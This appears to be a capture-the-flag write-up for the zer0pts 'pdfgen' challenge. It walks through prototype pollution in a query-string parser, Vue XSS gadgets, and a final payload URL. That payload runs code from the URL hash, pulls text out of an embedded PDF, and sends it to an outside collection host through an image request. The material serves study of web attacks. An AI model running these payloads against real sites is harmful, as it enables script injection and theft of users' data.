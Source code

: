 
### Challenge Intro

```javascript
app.get('/text', urlencodedParser, (req, res) => {
  const ip = req.connection.remoteAddress
  let pdfDoc = new PDFDocument;
  var filename = './uploads/' + uuid.v4()
  pdfDoc.pipe(fs.createWriteStream(filename));

  if(ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"){
    pdfDoc.text(FLAG);
  }else{
    pdfDoc.text(req.query.text);
  }

  pdfDoc.end();
  res.send(`<html>...

```

```javascript
  <script>
  var params = parseQuery(location.search.slice(1));
  var app = new Vue({
      el: '#app',
      data: {
          title: 'Text to PDF Convertor'
      }
  });
  if(params.name && params.text ){
    document.getElementById("name").innerText = "Hi, "+ params.name;
    document.getElementById("text").value = params.text;
  }
  </script>
 ```

### parseQuery Function

 ```javascript
 function idenity(value){ return value; }

  function parseQuery(params, valueDeserializer) {
    valueDeserializer = valueDeserializer || idenity;
    var data = {}, pairs, lastPart;
    if (params && paramTest.test(params)) {
        pairs = params.split('&');
        pairs.forEach(function (pair) {
            var parts = pair.split('='),
                key = prep(parts.shift()),
                value = prep(parts.join('=')),
                current = data;
            if (key) {
                parts = key.match(keyBreaker);
                for (var j = 0, l = parts.length - 1; j < l; j++) {
                    var currentName = parts[j],
                        nextName = parts[j + 1],
                        currentIsArray = isArrayLikeName(currentName) && current instanceof Array;
                    if (!current[currentName]) {
                        if(currentIsArray) {
                            current.push( isArrayLikeName(nextName) ? [] : {} );
                        } else {
                            current[currentName] = isArrayLikeName(nextName) ? [] : {};}

                    }
                    if(currentIsArray) {
                        current = current[current.length - 1];
                    } else {
                        current = current[currentName];
                    }

                }
                lastPart = parts.pop();
                if ( isArrayLikeName(lastPart) ) {
                    current.push(valueDeserializer(value));
                } else {
					if(currentName !== "__proto__")
                    	current[lastPart] = valueDeserializer(value);
                	}
            	}
        	});
    }
    return data;
};
```

1. Tries to parse the URL
2. Paramteres are split with `&` as delimiter.
3. Computations are done if it is array.
4. If it is not array something else is done. 
5. `current[lastPart] = valueDeserializer(value);`


### Prototype Pollution

http://localhost:8081/text?text=asd123&a[constructor][prototype][pollute]=pollutedxyz

1. `params`
2. `params.__proto__`
3. `Object.__proto__.pollute`
4. `document.__proto__.pollute`

### VueJS - XSS Payloads

```javascript
var params = parseQuery(`constructor[prototype][props][][value]=a&constructor[prototype][name]=":''.constructor.constructor('alert(1337)')(),"`)

var params = parseQuery(`constructor[prototype][v-if]=_c.constructor('alert(1337)')()`)

var params = parseQuery('constructor[prototype][data]=a&constructor[prototype][template][nodeType]=a&constructor[prototype][template][innerHTML]="<script>alert(1337)<\/script>"')
```

### PostMessage to PDF

```javascript
document.getElementsByTagName('embed')[0].postMessage({type:'selectAll'}, '*');
document.getElementsByTagName('embed')[0].postMessage({type:'getSelectedText'}, '*');
```

# Final Payload

```

https://pdfgen.ctf.zer0pts.com:8443/text?texts=asd&a[constructor][prototype][props][][value]=a&a[constructor][prototype][name]=a":''.constructor.constructor('eval(decodeURIComponent(location.hash.slice(1)))')(),"a#

window.addEventListener('message', (e) => {

	if (e.data.type === 'getSelectedTextReply') {
	   (new Image).src = ['https://ctf.s1r1us.ninja/1d9e11f1-9421-40d3-954f-8c2712c9d16e?data=', e.data.selectedText];
    }

});

(async () => {
	const wait = x => new Promise(r=>{setTimeout(r,x)});
 	document.getElementsByTagName('embed')[0].postMessage({type:'selectAll'}, '*');
 	document.getElementsByTagName('embed')[0].postMessage({type:'getSelectedText'}, '*');
})();
```


http://localhost:8081/text?text=flag{goes_here}&a[constructor][prototype][props][][value]=a&a[constructor][prototype][name]=a%22:%27%27.constructor.constructor(%27eval(decodeURIComponent(location.hash.slice(1)))%27)(),%22a#%20window.addEventListener('message',%20(e)%20=%3E%20{%20if%20(e.data.type%20===%20'getSelectedTextReply')%20{%20(new%20Image).src%20=%20['https://requestbin.net/r/h4c60l9y?data=',%20e.data.selectedText];%20}%20});%20(async%20()%20=%3E%20{%20const%20wait%20=%20x%20=%3E%20new%20Promise(r=%3E{setTimeout(r,x)});%20document.getElementsByTagName('embed')[0].postMessage({type:'selectAll'},%20'*');%20document.getElementsByTagName('embed')[0].postMessage({type:'getSelectedText'},%20'*');%20})();
